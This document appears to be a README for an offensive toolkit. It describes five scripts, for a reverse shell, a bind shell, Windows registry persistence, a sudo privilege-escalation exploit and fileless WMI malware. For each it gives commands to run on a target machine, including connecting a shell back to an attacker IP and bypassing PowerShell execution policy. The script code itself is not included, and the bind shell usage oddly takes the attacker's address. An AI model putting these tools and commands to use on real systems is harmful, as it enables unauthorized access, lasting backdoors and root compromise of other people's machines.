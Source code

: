 
#### `reverse_shell.py`

This Python script sets up a reverse shell on a target machine, allowing an attacker to gain remote access to the machine. The script opens a listener on the attacker's machine and connects to it from the target machine, giving the attacker control over the target machine.

##### Requirements

- Python 2.7 or 3.x

##### Installation

No installation is required. Simply download the `reverse_shell.py` file to your machine.

##### Usage

To use the script, run the following command on the target machine:

```
python reverse_shell.py <attacker_ip> <attacker_port>
```

Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port number of the attacker's machine.

#### `bind_shell.py`

This Python script sets up a bind shell on a target machine, allowing an attacker to gain remote access to the machine. The script opens a listener on the target machine and waits for an incoming connection from the attacker's machine, giving the attacker control over the target machine.

##### Requirements

- Python 2.7 or 3.x

##### Installation

No installation is required. Simply download the `bind_shell.py` file to your machine.

##### Usage

To use the script, run the following command on the target machine:

```
python bind_shell.py <attacker_ip> <attacker_port>
```

Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port number of the attacker's machine.

#### `persistence.py`

This Python script demonstrates how to achieve persistence on a target machine, allowing an attacker to maintain control over the machine even after a reboot. The script adds a new entry to the Windows registry that runs the script every time the machine starts up, ensuring that the attacker's backdoor is always active.

##### Requirements

- Python 2.7 or 3.x
- Windows operating system

##### Installation

No installation is required. Simply download the `persistence.py` file to your Windows machine.

##### Usage

To use the script, run the following command on the target machine:

```
python persistence.py
```

The script will add a new entry to the Windows registry that runs the script every time the machine starts up, ensuring that the attacker's backdoor is always active.

#### `privilege_escalation.sh`

This Bash script demonstrates a privilege escalation attack, in which an attacker gains elevated privileges on a target machine. The script exploits a vulnerability in the `sudo` command to gain root access.

##### Requirements

- Bash shell
- `sudo` command

##### Installation

No installation is required. Simply download the `privilege_escalation.sh` file to your machine.

##### Usage

To use the script, run the following command on the target machine:

```
bash privilege_escalation.sh
```

The script will exploit the `sudo` vulnerability to gain root access.

#### `fileless_malware.ps1`

This PowerShell script demonstrates a fileless malware attack, in which an attacker gains access to a target machine without leaving any traces on the file system. The script uses the Windows Management Instrumentation (WMI) service to execute malicious code in memory.

##### Requirements

- Windows operating system
- PowerShell

##### Installation

No installation is required. Simply download the `fileless_malware.ps1` file to your Windows machine.

##### Usage

To use the script, run the following command on the target machine:

```
powershell -ExecutionPolicy Bypass -File fileless_malware.ps1
```

The script will use the WMI service to execute malicious code in memory, without leaving any traces on the file system.
